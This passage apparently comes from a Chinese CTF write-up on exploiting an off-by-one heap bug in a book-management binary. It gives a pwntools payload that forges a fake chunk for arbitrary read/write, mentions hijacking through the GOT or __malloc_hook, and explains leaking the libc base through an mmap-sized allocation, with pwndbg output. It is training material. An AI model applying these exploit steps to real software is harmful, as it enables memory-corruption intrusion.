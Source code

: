 ![off-by-one-3](img\off-by-one-3.png)

这样就是实现 edit book1 修改 book2 指针地址，edit book2 修改任意地址

```python
log.success("book2_name_addr:"+hex(book1_addr+0x38))
log.success("book2_desc_addr:"+hex(book1_addr+0x40))
payload=p64(1)+p64(book1_addr+0x38)+p64(book1_addr+0x40)+p64(0xffff)
editbook(book_id_1,payload) 	# write fakechunk
```

#### 泄露 libc 地址 

前面我们已经获得了任意地址读写的能力，下面的操作是显而易见的，比如写 got 表劫持流程或者写 __malloc_hook 劫持流程等。但是这个题目特殊之处在于开启 PIE 并且没有泄漏 libc 基地址的方法，因此我们还需要想一下其他的办法。

这道题的巧妙之处在于在分配第二个 book 时，使用一个很大的尺寸，使得堆以 mmap 模式进行拓展。我们知道堆有两种拓展方式一种是 brk 会直接拓展原来的堆，另一种是 mmap 会单独映射一块内存。

在这里我们申请一个超大的块，来使用 mmap 扩展内存。因为 mmap 分配的内存与 libc 之前存在固定的偏移因此可以推算出 libc 的基地址。

```shell
pwndbg> x /4gx 0x0000555555758360
0x555555758360:	0x0000000000000002	0x00007ffff7fbc010
0x555555758370:	0x00007ffff7f9a010	0x0000000000021000
```
